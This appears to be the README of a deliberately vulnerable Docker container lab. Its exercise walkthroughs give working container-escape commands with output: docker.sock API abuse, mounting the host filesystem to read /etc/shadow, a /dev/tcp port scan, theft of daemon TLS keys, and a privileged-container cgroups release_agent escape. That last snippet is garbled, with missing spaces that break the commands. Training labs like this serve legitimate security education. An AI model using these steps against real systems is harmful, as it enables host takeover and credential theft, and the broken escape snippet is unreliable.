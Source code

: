 # Damn Vulnerable Docker Container

## Getting Started

```
$ docker build --tag dvdc:1.0 .
$ docker run -d --network host -v /var/run/docker.sock:/var/run/docker.sock --name dvdc dvdc:1.0
```

## Exercises

### Docker Sockets

#### Exercise 1: Querying the API

In this exercise, the host's docker.sock will be exposed to the container. To get started, drop into a local shell:
```
docker exec -it dvdc /bin/bash
```

With the exposed socket you can make API calls to query running containers, start new containers, and even break out to the host. In this exercises, try to find out what version of Docker is running using the API.

<details>
    <summary>Walkthrough</summary>
    
    # Check if the docker socket is mounted
    user@66a0d5faa124:/# file /var/run/docker.sock
    /var/run/docker.sock: socket

    # Check if it's writable
    user@66a0d5faa124:~$ ls -l /var/run/docker.sock
    srw-rw---- 1 root users 0 Jul  6 03:24 /var/run/docker.sock
    user@66a0d5faa124:~$ groups
    user users giddy

    # Query the API
    user@66a0d5faa124:/# curl --unix-socket /var/run/docker.sock http://localhost/version
    {"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"18.09.6","Details":{"ApiVersion":"1.39","Arch":"amd64","BuildTime":"2019-05-04T02:41:08.000000000+00:00","Experimental":"false","GitCommit":"481bc77","GoVersion":"go1.10.8","KernelVersion":"4.14.116-boot2docker","MinAPIVersion":"1.12","Os":"linux"}}],"Version":"18.09.6","ApiVersion":"1.39","MinAPIVersion":"1.12","GitCommit":"481bc77","GoVersion":"go1.10.8","Os":"linux","Arch":"amd64","KernelVersion":"4.14.116-boot2docker","BuildTime":"2019-05-04T02:41:08.000000000+00:00"}
</details>

<details>
    <summary>GIDding around</summary>

    # Sometimes the GID the group that can write to /var/run/docker.sock inside the container might show up as a number, i.e:
    # srw-rw---- 1 root 967 0 Jul  6 03:24 /var/run/docker.sock
    # This is because the GID of the docker group on the host doesn't exist in the container.
    # The container user is a member of the "giddy" group which can be used with "groupadd", which has been given suid permissions, to grant the user write permissions on /var/run/docker.sock.
    # This can be done with the following command:
    groupmod -g {writable-gid} giddy # where {writable-gid} is the gid in your "ls -l /var/run/docker.sock" output
</details>

#### Exercise 2: Command execution

Now that we know we can query the API via the mounted socket we can use the exposed functionality to execute commands as the container's root user. You can use the `/exec` endpoint to accomplish this.

<details>
    <summary>Walkthrough</summary>

    # Send and execute a command
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/dvdc/exec -d '{"AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "touch /tmp/success"]}'
    HTTP/1.1 201 Created
    Api-Version: 1.39
    Content-Type: application/json
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)
    Date: Mon, 06 Jul 2020 06:49:14 GMT
    Content-Length: 74

    {"Id":"dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67"}
    user@66a0d5faa124:~$ curl -insecure -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/exec/dd8dd0cd94b8a3821eaa2b236f1a1c74a60e3c0f17857647f3d1cefc44b40c67/start -d '{}'
    HTTP/1.1 200 OK
    Content-Type: application/vnd.docker.raw-stream
    Api-Version: 1.39
    Docker-Experimental: false
    Ostype: linux
    Server: Docker/18.09.6 (linux)

    user@66a0d5faa124:~$ ls -la /tmp
    total 8
    drwxrwxrwt 1 root root 4096 Jul  6 06:50 .
    drwxr-xr-x 1 root root 4096 Jul  6 06:45 ..
    -rw-r--r-- 1 user user    0 Jul  6 06:50 success
</details>


#### Exercise 3: Reading the host filesystem

Code execution is great, but the API can be abused to create new containers and read the host filesystem. You can use the `/containers/create` endpoint to do this.
<details>
    <summary>Walkthrough</summary>

    # Deploy a new container called "escape", mount the host's filesystem to `/host` and then run `cat /host/etc/shadow`
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d'{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"

    # Start the container
    curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"

    # Read the output of the command
    curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"

    # Clean up
    curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
</details>

#### Exercise 4: Communicating with the Docker Daemon with static docker binaries

Now that you can read the host filesystem you can search for sensitive files. In secure docker environments, the dockerd service uses TLS and requires a client to verify itself with a private key. In this exercise, try to use a docker static binary (found [here](https://download.docker.com/linux/static/stable/)) to connect to the host daemon. If TLS is enforced, use the technique in exercise 3 to read the docker certificates and connect to the host daemon.

<details>
    <summary>Walkthrough</summary>

    # Find the IP address of the host
    user@default:~# ip a
    ... snip ...
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:02:66:09 brd ff:ff:ff:ff:ff:ff
        inet 192.168.99.102/24 brd 192.168.99.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::a00:27ff:fe02:6609/64 scope link
           valid_lft forever preferred_lft forever
    ... snip ...
    
    # Find open ports
    user@default:~# for port in {1..65535}; do timeout 1 bash -c "echo > /dev/tcp/192.168.99.102/$port" >& /dev/null && echo "port $port is open"; done
    port 22 is open
    port 2376 is open
    port 32888 is open
    
    # Download docker static binaries
    user@default:~# wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.0.tgz
    Resolving download.docker.com (download.docker.com)... 13.224.180.114, 13.224.180.65, 13.224.180.2, ...
    Connecting to download.docker.com (download.docker.com)|13.224.180.114|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 63255038 (60M) [application/x-tar]
    Saving to: 'docker-19.03.0.tgz'
    
    docker-19.03.0.tgz                       100%[================================================================================>]  60.32M  5.22MB/s    in 11s
    
    2020-07-06 23:16:21 (5.49 MB/s) - 'docker-19.03.0.tgz' saved [63255038/63255038]
    
    # Try to connect to the host
    user@default:~# ./docker/docker -H 192.168.99.102:2376 version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    Get http://192.168.99.102:2376/v1.40/version: net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x15\x03\x01\x00\x02\x02".
    * Are you trying to connect to a TLS-enabled daemon without TLS?
    
    # Try again with tls enabled
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.40
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    The server probably has client authentication (--tlsverify) enabled. Please check your TLS client certification settings: Get https://192.168.99.102:2376/v1.40/version: remote error: tls: bad certificate
    
    # Using the technique shown in the previous exercise, find and read the docker certificates.
    # If you installed docker and docker-machine with brew on macos they might be located under `~/.docker/machine/certs/`
    user@default:~# ./docker/docker -H 192.168.99.102:2376 --tls --tlscert=./ca.pem --tlskey=./ca-key.pem version
    Client: Docker Engine - Community
     Version:           19.03.0
     API version:       1.39 (downgraded from 1.40)
     Go version:        go1.12.5
     Git commit:        aeac9490dc
     Built:             Wed Jul 17 18:11:50 2019
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server: Docker Engine - Community
     Engine:
      Version:          18.09.6
      API version:      1.39 (minimum version 1.12)
      Go version:       go1.10.8
      Git commit:       481bc77
      Built:            Sat May  4 02:41:08 2019
      OS/Arch:          linux/amd64
      Experimental:     false
</details>

#### Exercise 5: Breaking out

Being able to use the docker binary within the container allows you to more easily enumerate the environment, read the build history of containers deploy, new containers, and fully break out of the compromised container. In this exercise, use what you heave learned to deploy a new, privileged container which mounts the host file system by using the exposed docker daemon. Once deployed, drop into a shell with `docker exec` to interact with the filesystem.

### Privileged Mode

Docker has a special privileged mode which, if enabled with the `--privileged` flag, allows a container to access all host devices and kernel capabilities. This feature can be abused on linux hosts via `cgroups`.

The following is a quick and dirty way of getting out of a privileged k8 pod or docker container by using the cgroups release agent feature ([source](https://twitter.com/_fel1x/status/1151487051986087936))
```
(host) docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname$(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w
(cont)# echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n's/.*\perdir=\([^,]*\).*/\1/p'/etc/mtab`
(cont)# touch /o
(cont)# echo$t/c >$d/release_agent
(cont)# printf'#!/bin/sh\nps >'"$t/o" >/c
(cont)# chmod +x /c
(cont)# sh -c "echo 0 >$d/w/cgroup.procs"
(cont)# sleep 1
(cont)# cat /o
```

## Resources:
- [Abusing Docker API sockets](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)
- [A Methodology for Penetration Testing Docker Systems](https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf)
- [Break out the Box](https://github.com/brompwnie/botb)

